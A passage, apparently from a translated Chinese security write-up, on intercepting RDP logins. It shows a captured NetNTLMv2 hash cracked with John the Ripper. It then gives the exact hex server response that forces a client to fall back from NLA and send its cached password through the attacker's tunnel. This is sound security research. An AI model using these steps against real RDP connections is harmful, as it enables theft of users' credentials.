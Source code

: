 我高亮显示了客户端质询和NTLM的应答，两者是彼此相邻的。服务器质询位于服务器的上一条消息中。

我们在这里看到的是NTLM身份验证[15]。这是一种质询-应答技术，其中客户端会将服务器质询（类似于Server Random）、客户端质询以及用户密码的哈希值以及一些其他值映射为加密哈希值。这个值称为“NTLM应答”，然后将其传输到服务器。

这个值的计算细节对我们来说并不重要。我们唯一需要知道的是，它不能用于重放攻击或用于哈希值传递攻击。但它可能会遭受密码猜测攻击！

底层的哈希算法是HMAC-MD5，这是一个相当差劲的哈希算法（所以我们可以每秒猜测大量值），但它仍然使用了salt（用来对付彩虹表）。

我们现在可以尝试用Hashcat [17]或者John Ripper [18]来破解它。John的哈希格式为[16]： 

```
&lt;Username&gt;::&lt;Domain&gt;:&lt;ServerChallenge&gt;:&lt;ClientChallenge&gt;:&lt;NTLMResponse&gt;
```

在本例中，我们有： 



```
User1::RD14:a5f46f6489dc654f:110d658e927f077b0402040cc1a6b6ef:0101000000000
000d5fda87cec95d201a7559d44f431848a0000000002000800520044003100340001000800
44004300300031000400140072006400310034002e006c006f00630061006c0003001e00640
06300300031002e0072006400310034002e006c006f00630061006c00050014007200640031
0034002e006c006f00630061006c0007000800d5fda87cec95d201060004000200000008003
000300000000000000000000000002000004cfa6e96109bd90f6a4080daaa8e264e4ebfaffa
e9e368af787f53e389d96b180a0010000000000000000000000000000000000009002c00540
0450052004d005300520056002f003100390032002e003100360038002e00340030002e0031
0037003900000000000000000000000000
```

如果我们把这个哈希值放在一个名为hashes.txt的文件中，那么可以通过下列命令来进行验证： 



```
$ echo 'S00perS3cretPa$$word' | ./john --format=netntlmv2 --stdin hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
S00perS3cretPa$$word (User1)
1g 0:00:00:00 33.33g/s 33.33p/s 33.33c/s 33.33C/s S00perS3cretPa$$word
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

虽然不是很理想，但是总比什么都没有强。不过，实际上我们可以做得更好。

我们需要问自己的问题是：服务器是如何验证NTLM应答的？它会咨询域控制器。那么，如果域控制器不可用呢？ 它会说“算了，让我们使用增强型RDP安全协议吧，不用NLA了”，客户端也会言听计从。但是有趣的是：由于客户端已经缓存了用户的密码，所以它会直接传输它，而不是将用户引导至Windows登录屏幕！ 这正是我们想要的。这样除了SSL警告之外，就没有任何可疑的东西引起受害者的注意了。

所以，我们要做的事情是：当客户端发送它的NTLM应答后，我们将服务器的响应替换为： 

```
00000000: 300d a003 0201 04a4 0602 04c0 0000 5e 0.............^
```

我没有找到与此有关的文档，但它的确是无法联系域控制器时的服务器响应。客户端将返回到增强型RDP安全协议，并显示SSL警告，同时将SSL隧道内的密码传输到服务器。
